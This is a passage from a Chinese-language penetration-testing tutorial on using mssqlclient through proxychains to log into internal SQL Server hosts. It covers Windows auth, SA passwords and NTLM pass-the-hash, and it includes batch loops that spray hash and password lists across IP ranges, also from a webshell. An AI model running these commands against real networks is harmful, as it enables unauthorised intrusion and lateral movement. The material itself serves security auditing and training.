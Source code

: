     mssqlclient.exe dayu/sqladmin@192.168.3.73 -windows-auth
    
        

2）通过 socks代理，在linux环境下使用 windows认证模式，mssqlclient测试登陆 sqlserver服务器，账号验证通过后会直接返回 sql shell

    proxychains python mssqlclient.py dayu/sqladmin@192.168.x.x -windows-auth
    
        

3）通过 socks代理，以mssql账号验证方式测试登陆mssql服务器，账号验证成功后执行mssql. txt内的sql命令

    proxychains python mssqlclient.py ./sa:admin@192.168.x.x -file mssql.txt
    
        

4）通过 socks代理，在linux环境下使用 windows认证模式，mssqlclient测试登录sqlserver服务器，账号验证成功后执行 command.txt内的sql命令

    proxychains python mssqlclient.py -p 1433 dayu/sqladmin:123456@192.168.x.x -windows-auth -file cpmmand.txt
    
        

5）在windows环境下使用windows认证模式，使用ntlm hash验证方式，mssqlclient测试登陆sqlserver服务器，账号验证成功后执行command.txt内的sql命令

    mssqlclient.exe -p 1433 -hashes :"hash值" dayu/sqladmin@192.168.x.x -file command.txt -windows-auth
    
        

同样也可以用于webshell环境下

**批量检测**

除此之外，还可以批量检测内网 SQL server服务器的账号安全性-
需要准备的文件有：

    mssqlclient.exe(必须)
    command.txt(必须) 
    
        

以下四个文件需选其一：

    hashes.txt	（需验证的 ntlm hash字符串列表）
    username.txt（需验证的 username列表）
    password.txt（需验证的密码字符串列表）
    Ips.txt 	（需验证的p字符串列表）
    
        

**举例以下几种批量检测的bat脚本内容**

1）测试以 windows认证模式，使用hash传递验证，使用 mssqlclient批量测试登陆 sqlserver服务器，Ips.txt 内容为待检测sqlserver服务ip，每行一条

    FOR /F %%i in (ips.txt) do mssqlclient.exe -p 1433 -hashes :hash值 ......
    
        

2）测试以 windows认证模式，使用hash传递验证，指定主机 ntlm hash遍历验证，hashes.txt为待检测已知 ntlm hash内容，每行一条

    FOR /F %%i in (hashes.txt) do mssqlclient.exe -p 1433 -hashes %%i domain/adminis.......
    
        

3）测试以 sqlserver认证模式，指定待检测主机，遍历验证 passwords.txt 内密码有效性，passwords.txt为已知密码内容，每行一条，验证成功后执行 command.txt内sql命令

    FOR /F %%i in (passwords.txt) do mssqlclient.exe -p 1433 ./sa:%%i@192.168.x.x ....
    